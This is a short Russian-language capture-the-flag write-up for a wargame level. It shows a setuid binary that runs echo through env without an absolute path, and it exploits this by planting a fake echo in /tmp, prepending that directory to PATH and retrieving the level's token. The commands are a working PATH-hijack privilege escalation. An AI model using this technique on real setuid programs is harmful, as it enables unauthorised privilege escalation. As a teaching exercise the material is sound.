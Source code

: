 В этом уровне впервыфе появляется некий бинарный файл

```
ls -la
```
> ...\
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03\
...

Права rws означают, что данный банарный файл будет выполняться не с привилегиями пользователя, который ее запустил, а с привилегиями владельца файла.
Так как владельцем файла является flag03, вместо echo нужно выполнить getflag

С помощью трассировки вызовов библиотеки находим:
>__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>\
getegid()                                                                                                     = 2003\
geteuid()                                                                                                     = 2003\
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
system("/usr/bin/env echo Exploit me"Exploit me\
 <unfinished ...>\
--- SIGCHLD (Child exited) ---\
<... system resumed> )                                                                                        = 0\
+++ exited (status 0) +++

Oткрыв файл в нем была найдена строка:

system("/usr/bin/env echo Exploit me"Exploit me\

Которая выполняет echo без абсолютного пути, следовталеьно этот бинарник можно подменить

Создаем файл echo с необходимым содержимым
```
echo '#!/bin/sh
/bin/getflag' > /tmp/echo
```
И делаем его исполняемым
```
chmod +x /tmp/echo
```

Добавляем в начало данный путь
```
export PATH=/tmp:$PATH
```

Получаем токен
```
./level03
```
> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

